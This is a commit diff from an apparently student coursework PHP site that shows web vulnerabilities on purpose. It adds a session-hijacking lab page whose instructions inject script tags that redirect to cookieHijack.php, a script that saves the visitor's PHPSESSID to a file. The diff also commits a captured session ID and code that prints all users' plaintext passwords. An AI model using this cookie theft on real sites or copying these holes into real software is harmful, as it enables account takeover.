

Before and after one commit to BaileyLylyk/CT6042-2022-23-001-s4001175-SOURCECODE, a PHP site: page /vulnerability4.php in a window 1280 px wide. Before the commit the page is almost empty. Before the commit the page ends 22 px from the top, so only its background shows below. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); data that the repository does not hold is empty.

Commit message:
session hijacking exploit

```diff
--- /dev/null
+++ b/cookieHijack.php
@@ -0,0 +1,6 @@
+<?php
+$sessionID = $_COOKIE["PHPSESSID"];
+$file = fopen("stolenCookies.txt", "a");
+fwrite($file, $sessionID);
+fclose($file);
+?>
--- a/loginSecure.php
+++ b/loginSecure.php
@@ -5,8 +5,8 @@ $sql = "SELECT * FROM USER WHERE EMAIL = ? AND Password= ?";
 
 if($stmt = $conn->prepare($sql)){
 
-    $email = $_GET['email'];
-    $pass = $_GET['password'];
+    $email = $_POST['email'];
+    $pass = $_POST['password'];
     $stmt->bind_param("ss", $email, $pass);
 
 
--- /dev/null
+++ b/stolenCookies.txt
@@ -0,0 +1 @@
+9j9gs873chtohkpodr2mc0evrs
--- a/vulnerability4.php
+++ b/vulnerability4.php
@@ -1 +1,85 @@
-4
+<?php
+session_start();
+include_once("conn.php");?>
+<!doctype html>
+<html lang="en">
+  <head>
+    <meta charset="utf-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1">
+    <title> Vulnerable Site</title>
+    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.2/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-Zenh87qX5JnK2Jl0vWa8Ck2rdkQ2Bzep5IDxbcnCeuOxjzrPF/et3URy9Bv1WTRi" crossorigin="anonymous">
+  </head>
+  <body style="background:#282828">
+    <nav class="navbar navbar-expand-lg bg-light" style="position:fixed; width: 100%; background-color:0C0032">
+        <div class="container-fluid">
+          <a class="navbar-brand" href="#">Navbar</a>
+          <button class="navbar-toggler" type="button" data-bs-toggle="collapse" data-bs-target="#navbarNavAltMarkup" aria-controls="navbarNavAltMarkup" aria-expanded="false" aria-label="Toggle navigation">
+            <span class="navbar-toggler-icon"></span>
+          </button>
+          <div class="collapse navbar-collapse" id="navbarNavAltMarkup">
+            <div class="navbar-nav">
+              <a class="nav-link active" aria-current="page" href="#">Home</a>
+              <a class="nav-link" href="vulnerability1.php">Vulnerability 1</a>
+              <a class="nav-link" href="vulnerability2.php">Vulnerability 2</a>
+              <a class="nav-link" href="vulnerability3.php">Vulnerability 3</a>
+              <a class="nav-link" href="vulnerability4.php">Vulnerability 4</a>
+              <a class="nav-link" href="vulnerability5.php">Vulnerability 5</a>
+            </div>
+          </div>
+        </div>
+      </nav>
+
+      <div class="container" style=" background-color:white;">
+
+
+            <!-- Content here -->
+            <h1 style ="padding-top:5rem;">Vulnerability 3 - Session Hijacking</h1>
+
+            <?php echo "<h3> Welcome ".$_SESSION["email"]."</h3>"; ?>
+
+            <p style="font-size: 1.25rem;">This page will demonstrate a session hijacking attack using cross site scripting. Before using the form on this page please login using the secure login form on the vulnerability 2 page. If you are logged in a welcome message
+        with a valid email will be displayed on this page</p>
+            <p style = "font-size: 1.25rem;">To perform the exploit write some script tags as with the XSS attack before and inside them input "location.href='cookieHijack.php' "</p>
+            <p style="font-size: 1.25rem;"> Available Users:</p>
+
+             <?php
+            $SQL = "SELECT * FROM USER";
+            $results=mysqli_query($conn,$SQL);
+
+            while ($users = mysqli_fetch_array($results)){
+              echo "<div><p> User ID: ".$users['User_ID']."</p>";
+              echo "<p> Email: ".$users['Email']."</p>";
+              echo "<p> Password: ".$users['Password']."</p></div>";
+            }
+            ?>
+
+            <hr>
+
+            <h3> Vulnerable Form </h3>
+            <form style ="max-width:30%"  method ="get" action="xss.php">
+                <div class="mb-3">
+                    <label for="message" class="form-label">Your Message</label>
+                    <input type="message" class="form-control" id="message"  name="message">
+                </div>
+
+                <button type="submit" class="btn btn-primary">Submit</button>
+            </form>
+
+            <br><hr>
+            <h3> Secure Form </h3>
+            <form style ="max-width:30%"  method ="get" action="xssSecure.php">
+                <div class="mb-3">
+                    <label for="message" class="form-label">Your Message</label>
+                    <input type="message" class="form-control" id="message"  name="message">
+                </div>
+
+                <button type="submit" class="btn btn-primary">Submit</button>
+            </form>
+
+            <br><hr><br>
+      </div>
+
+
+    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.2.2/dist/js/bootstrap.bundle.min.js" integrity="sha384-OERcA2EqjJCMA+/3y+gxIOqMEjwtxJY7qPCqsdltbNJuaOe923+mo//f6V8Qbsw3" crossorigin="anonymous"></script>
+  </body>
+</html>
```
Also changed, not shown: .scannerwork/report-task.txt.
